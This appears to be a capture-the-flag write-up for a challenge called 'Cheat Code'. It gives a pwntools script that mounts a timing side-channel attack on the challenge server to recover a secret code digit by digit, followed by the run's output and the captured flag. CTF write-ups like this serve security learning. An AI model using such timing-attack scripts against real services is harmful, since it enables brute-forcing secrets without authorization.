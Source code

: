 ```yaml
---
created: 2024-06-22T07:29
updated: 2024-06-24T23:18
---
```


## Cheat Code

It seems that the validation step would take a very  long time, which means its gonna be timing attack!

i.e. measure the time between you sending the data, and the server responding with "Wrong"

```python
from pwn import *
from time import perf_counter

def time_char(ch):
    conn.recvuntil(b"Enter the secret code: ")
    conn.sendline(ch)
    start = perf_counter()
    res = conn.recvline()
    time = perf_counter() - start
    if b'Wrong!\n' != res:
        print(f"Found: {ch}")
        print(f"Time: {time}")
        print(res)
        print(conn.recvall())
        conn.interactive()
        return 0
    return time

conn = remote("chal-lz56g6.wanictf.org", 5000)
conn.recvuntil(b"Enter the cheat code: ")
conn.sendline(b"A"*50)

curr = b''
for j in range(10):
    res = [time_char((curr + str(i).encode()).ljust(10, b'0')) for i in range(10)]
    min_index = res.index(min(res))
    curr+=str(min_index).encode()
    print(f"Current: {curr} {res[min_index]} {res}")
```

```
Current: b'2' 1.0258064000081504
Current: b'24' 0.9410080999950878
Current: b'244' 0.8268128000054276
Current: b'2443' 0.7246176000044215
Current: b'24438' 0.6052523999969708
Current: b'244388' 0.5313083000073675
Current: b'2443889' 0.40315929999633227
Current: b'24438896' 0.28107090000412427
Found: b'2443889630'
Time: 0.17056149999552872
b'Correct!\n'
b'FLAG{t1m!ng_a774ck_1s_f34rfu1}\n'
```
